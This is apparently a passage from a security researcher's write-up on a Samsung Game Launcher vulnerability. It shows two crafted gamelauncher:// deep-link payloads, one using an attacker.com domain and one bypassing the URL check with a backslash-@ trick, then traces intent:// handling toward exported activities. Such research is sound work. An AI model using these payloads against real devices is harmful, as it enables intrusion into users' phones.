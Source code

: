 *   Buy Domain with subdomain whitelisted

```
"gamelauncher://com.samsung.android.game.gamehome/gmp?url=https://us.mcsvc.samsung.com.attacker.com?location=https://google.com"

```

*   Bypass the URL Check

```
"gamelauncher://com.samsung.android.game.gamehome/gmp?url=https://us.mcsvc.samsung.com\@google.com"

```

Now we can load`P0` and enable JavaScript

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*Zq_taeOPG1ruvXquZ1UdYg.png)

back to D0

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*CJKkd5k205G8ECa32PGy2A.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*kKz04XwMeUeEF9emx7LKig.png)Load our URL

> Execute “start Activity” through data from Webivew to start exported Activities (com.samsung.android.game.gamehome)

Trace the Intent #3
-------------------

now we need to see if this WebView can let us call any exported activity `intent://` so we start search for `parseUri` is built to parse `intent://` links into `Intent` objects, so it will fully handle them.

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*-88UNWVXOez14fRUkBJNFw.png)GmpWebActivity

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*ZkwouUxvEAxZ8xLx6cvElw.png)com.samsung.android.game.gamehome.gmp.ui.web.o

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*pva3ophTIhrhoC4ohyVSyg.png)GmpWebActivity

so until now if schema is anything will load `i`if schema `intent://` it will load

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*M01lDwCBra41tzOrr2lafw.png)
